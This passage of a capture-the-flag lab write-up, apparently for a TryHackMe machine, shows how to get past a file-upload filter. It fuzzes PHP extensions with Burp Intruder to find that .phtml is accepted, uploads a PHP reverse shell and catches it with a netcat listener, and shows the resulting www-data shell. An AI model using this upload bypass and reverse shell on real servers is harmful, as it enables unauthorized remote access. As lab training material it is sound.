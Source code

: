 
Found: http://10.10.53.246:3333/internal/ (a upload page)

#### Reverse shell

```bash
nc -lvnp 4444
```

Upload the malicious php (reverse-shell.php)

Failed extension not allowed

Used burpsuit Intruder with a file like this:

```
.phtml
.php
.php3
.php4
.php5
.inc
.pHtml
.pHp
```

Found that .phtml is a valid extension

Download the following reverse PHP shell [here](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php).

To gain remote access to this machine, follow these steps:

1. Edit the php-reverse-shell.php file and edit the ip to be your tun0 ip (you can get this by going to http://10.10.10.10 in the browser of your TryHackMe connected device).

2. Rename this file to php-reverse-shell.phtml

3. We're now going to listen to incoming connections using netcat. Run the following command: nc -lvnp 4444

4. Upload your shell and navigate to http://<ip>:3333/internal/uploads/php-reverse-shell.phtml - This will execute your payload

5. You should see a connection on your netcat session

Success reversed shell ✅

```
Listening on 0.0.0.0 4444
Connection received on 10.10.102.37 44138
Linux vulnuniversity 4.4.0-142-generic #168-Ubuntu SMP Wed Jan 16 21:00:45 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 21:02:40 up 19 min,  0 users,  load average: 0.00, 0.04, 0.15
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```
